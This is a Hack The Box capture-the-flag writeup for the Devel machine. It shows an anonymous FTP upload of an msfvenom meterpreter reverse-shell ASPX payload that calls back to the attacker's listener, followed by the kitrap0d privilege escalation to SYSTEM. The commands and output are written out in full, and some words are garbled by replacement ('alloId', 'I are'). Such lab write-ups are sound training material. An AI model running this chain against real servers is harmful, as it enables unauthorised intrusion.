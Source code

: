 ```yaml
---
layout: post
title: Devel (10.10.10.5) Writeup
description: >
  Hackthebox Devel Writeup
image: /assets/img/devel.png
noindex: true
---
```


<center><h3>Summary</h3></center>
<br>

- Use an Anonymous FTP login with write permission to upload a shell
- Use <b>ms10_015_kitrap0d</b> to escalate priveleges to root
<br>
First thing is always an Nmap scan

```
# Nmap 7.70 scan initiated Thu May 30 12:00:56 2019 as: nmap -sV -sC -T4 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up (0.043s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login alloId (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 Ilcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu May 30 12:01:12 2019 -- 1 IP address (1 host up) scanned in 16.12 seconds
```
Only two ports open but I do see that there is Anonymous login alloId on FTP.
```
# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access alloId, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp>
```
If I list the files inside the directory I see a few files. From the looks of them it seems to be the default files for an IIS installation.
```
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 Ilcome.png
226 Transfer complete.
```
I can confirm this by navigating to <b>http://10.10.10.5</b>

![Ilcome.png](../../resources/2198e0ae39a449b5a99de73c21d1e10d.png)

Now I know the files from the FTP can be directly accessed from the webpage. I decide to check if I have write privileges to the FTP server so I could upload a reverse shell. I test this by upload a test file

```
ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
967 bytes sent in 0.00 secs (1016.5081 kB/s)
```
If I go back to the  webpage and navigate to <b>test.txt</b> I see my file

![test.png](../../resources/1fb1cf084a494647a095325c56b721bc.png)

I am going to use msfvenom to create the payload for the reverse shell

```
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f aspx > shell.aspx

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2798 bytes
```
I put the shell onto the system using FTP
```
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2834 bytes sent in 0.00 secs (31.0657 MB/s)
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
09-23-19  03:42AM                 2834 shell.aspx
09-23-19  03:35AM                    9 test.txt
03-17-17  05:37PM               184946 Ilcome.png
226 Transfer complete.
```
Now I need to set up our listener. Metasploits's <b>exploit/multi/handler</b> will be used for this
```
msf5 exploit(multi/handler) > set lhost 10.10.14.21
lhost => 10.10.14.21
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.21:4444
```
Now in the  webpage, navigate to <b>http://10.10.10.5/shell.aspx</b>



![shell.png](../../resources/60aabc6c3aaa4ab3bb36d156e6391764.png)


Now if I check the listener I should have a <b>meterpreter</b> shell. Checking the user I will see that I have a low privilege shell

```
[*] Started reverse TCP handler on 10.10.14.21:4444
[*] Sending stage (179779 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.21:4444 -> 10.10.10.5:49157) at 2019-09-19 08:49:29 -0400

meterpreter > getuid
Server username: IIS APPPOOL\web
```
Next step is to run the <b>local_exploit_suggester</b>
```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 29 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```
I get tons of suggestions but the one I am going to use is <b>ms10_015_kitrap0d</b>. The reason I chose this one is because I have used it before and know that it works

Now I background the current <b>meterpreter</b> session so I can load in the <b>ms10_015_kitrap0d</b> exploit.
```
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d
msf5 exploit(windows/local/ms10_015_kitrap0d) > set session 1
session => 2
msf5 exploit(windows/local/ms10_015_kitrap0d) > set lhost tun0
lhost => tun0
msf5 exploit(windows/local/ms10_015_kitrap0d) > set lport 5555
lport => 5555
msf5 exploit(windows/local/ms10_015_kitrap0d) > exploit

[*] Started reverse TCP handler on 10.10.14.21:5555
[*] Launching notepad to host the exploit...
[+] Process 2140 launched.
[*] Reflectively injecting the exploit DLL into 2140...
[*] Injecting exploit into 2140 ...
[*] Exploit injected. Injecting payload into 2140...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (179779 bytes) to 10.10.10.5
[*] Meterpreter session 3 opened (10.10.14.21:5555 -> 10.10.10.5:49161) at 2019-09-19 09:10:29 -0400

meterpreter>
```
Now I have a new <b>meterpreter</b> shell and if I do <b>getuid</b> it will show that I are <b>NT AUTHORITY SYSTEM</b>
```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
Now I grab both flags. To do this type <b>shell</b> so I can get a windows shell.
```
meterpreter > shell
Process 3584 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```
The user flag is located in <b>C:\Users\babis\Desktop</b>
```
Directory of C:\Users\babis\Desktop

18/03/2017  02:14     <DIR>          .
18/03/2017  02:14     <DIR>          ..
18/03/2017  02:18                 32 user.txt.txt
              1 File(s)             32 bytes
              2 Dir(s)  24.452.411.392 bytes free
```
The root flag is located in <b>C:\Users\Administrator\Desktop</b>
```
Directory of C:\Users\Administrator\Desktop

18/03/2017  02:17     <DIR>          .
18/03/2017  02:17     <DIR>          ..
18/03/2017  02:17                 32 root.txt.txt
              1 File(s)             32 bytes
              2 Dir(s)  24.452.411.392 bytes free
```
<br><br><br>

